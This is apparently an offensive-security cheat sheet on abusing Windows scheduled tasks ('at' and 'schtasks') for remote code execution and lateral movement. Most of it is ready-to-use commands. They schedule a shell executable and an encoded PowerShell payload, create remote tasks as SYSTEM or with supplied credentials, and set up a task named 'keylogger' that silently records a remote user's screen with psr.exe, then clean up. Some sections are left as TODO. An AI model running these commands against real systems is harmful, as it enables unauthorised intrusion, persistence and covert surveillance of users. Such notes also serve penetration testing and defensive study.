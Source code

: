 # Schedule Periodic Tasks

## 01 - at

### 1.1 - Use Cases

```
C:\> net time \\<IP>

C:\> at <HH:mm> /interactive /every:m,t,w,th,f,s,su C:\path\to\shell.exe

C:\> at <HH:mm> powershell.exe -E <base64_payload>

C:\> at \\<IP>
```

## 02 - Schtasks

TODO: Fill this info

### 2.1 - Help Menu

#### 2.1.1 - Create Task

```
/create => create a schedule task
/sc => type of schedule
/st => start time
/tn => task name
/tr => task run
/s => computer IP
/ru => specify the username: { [DOMAIN_name]\<username> | system }
/rp => specify the password
/it => Make it interactive when the user is using his computer
```

#### 2.1.2 - Delete Task

### 2.2 - Usage

```
C:\> schtasks /create /tn "<task_name>" /tr "<commands>" /sc once /st <HH:mm> /s <IP> /ru [DOMAIN]\<username> /rp <password>

C:\> schtasks /create /tn "<task_name>" /tr "<commands>" /sc once /st <HH:mm> /s <IP> /ru system
```

### 2.2 - Use Cases

- Taking screenshots (Living off the Land)

```
C:\> net time \\<IP>

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock {Get-Date}

C:\> schtasks /create /tn "keylogger" /tr "C:\Windows\system32\psr.exe /start /gui 0 /output C:\path\to\file.zip" /sc once /st 00:00 /it [/ru <DOMAIN>\<username>] [/rp <password>] /s <target_IP>

C:\> schtasks /run /tn "keylogger" /s <IP>
```

- Create schedule task to stop taking screenshots

```
C:\> schtasks /create /tn "stop_keylogger" /tr "C:\Windows\system32\psr.exe /stop" /sc once /st 00:00 /it [/ru <DOMAIN>\<username>] [/rp <password>] /s <target_IP>

C:\> schtasks /run /tn "stop_keylogger" /s <IP>
```

- Delete schedule tasks

```
C:\> schtasks /delete /f /tn "keylogger" /s <IP>

C:\> schtasks /delete /f /tn "stop_keylogger" /s <IP>

C:\> schtasks /query /tn "keylogger" /fo List /v /s <IP>

C:\> schtasks /query /tn "stop_keylogger" /fo List /v /s <IP>
```

---
## References

- [Schtasks](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks)

- [Lateral Movement Windows and Active Directory](https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/)